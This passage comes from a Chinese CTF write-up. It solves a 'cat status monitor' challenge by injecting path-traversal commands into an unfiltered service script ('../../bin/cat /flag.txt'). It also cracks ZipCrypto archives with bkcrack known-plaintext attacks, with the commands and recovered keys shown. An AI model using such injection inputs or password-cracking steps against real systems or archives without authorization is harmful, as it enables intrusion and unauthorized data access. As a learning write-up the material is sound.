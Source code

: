 ……被 SecureCRT 8.7.1 汉化绿色版免费下载气晕——这下宇宙射线了（

### \[Misc\] 猫咪状态监视器
vi 一看 /usr/sbin/service 发现就是没做甚么过滤的脚本，所以整个活：
```Bash
STATUS
../../bin/bash -c ls
```
「正常显示 ls 了啊嗯」
```Bash
STATUS
../../bin/cat /flag.txt
```
——我一开始以为档案名是 flag1.txt 结果死活读不出，调试了好久才发现是自己犯蠢了。

### \[Misc\] 基本功
#### 简单的 Flag
对应的档案是 challenge_1.zip。用 7-Zip 打开发现是 ZipCrypto Store——它都没压缩！

所以就可以用 [bkcrack](https://github.com/kimci86/bkcrack) 尝试破解。

我透过 Google 搜寻「chromedriver_linux64.zip 5845152」，找到了当中 chromedriver_linux64.zip 的[来源](https://chromedriver.storage.googleapis.com/89.0.4389.23/chromedriver_linux64.zip)，这样就得到了一个档案的明文。
```PowerShell
.\bkcrack.exe -C .\challenge_1.zip -c chromedriver_linux64.zip -p .\chromedriver_linux64.zip
```
```
[12:13:05] Keys
d60e85c2 da791f96 cbf42e57
```
好好好好好！
```PowerShell
.\bkcrack.exe -C .\challenge_1.zip -c flag1.txt -k d60e85c2 da791f96 cbf42e57 -d .\flag1.txt
```

#### 冷酷的 Flag
注意到 challenge_2.zip 中出现了 flag2.pcapng。

当然我知道 PcapNg 应该有 4D 3C 2B 1A 01 00 00 00 FF FF FF FF FF FF FF FF 这段，但是就在这里卡了很久。

其实输入的明文不在档案开头的话，要用 `-o` 指定偏移量才能解出来。
```PowerShell
.\bkcrack.exe -C .\challenge_2.zip -c flag2.pcapng -p .\pcapng-header -o 8
```
```
[16:57:37] Keys
0c14e9c4 fdc94e6f 133ba92b
```
``` PowerShell
.\bkcrack.exe -C .\challenge_2.zip -c flag2.pcapng -k 0c14e9c4 fdc94e6f 133ba92b -d .\flag2.pcapng
```
打开一看：
```
AMD Ryzen 7 6800H with Radeon Graphics          (with SSE4.2)
64-bit Windows 10 (22H2), build 19045
```
……怎么这么巧，我这边的环境是：
```
AMD Ryzen 7 4800U with Radeon Graphics (with SSE4.2)
64-bit Windows 10 (22H2), build 19045
```
同款 Windows 是罢（
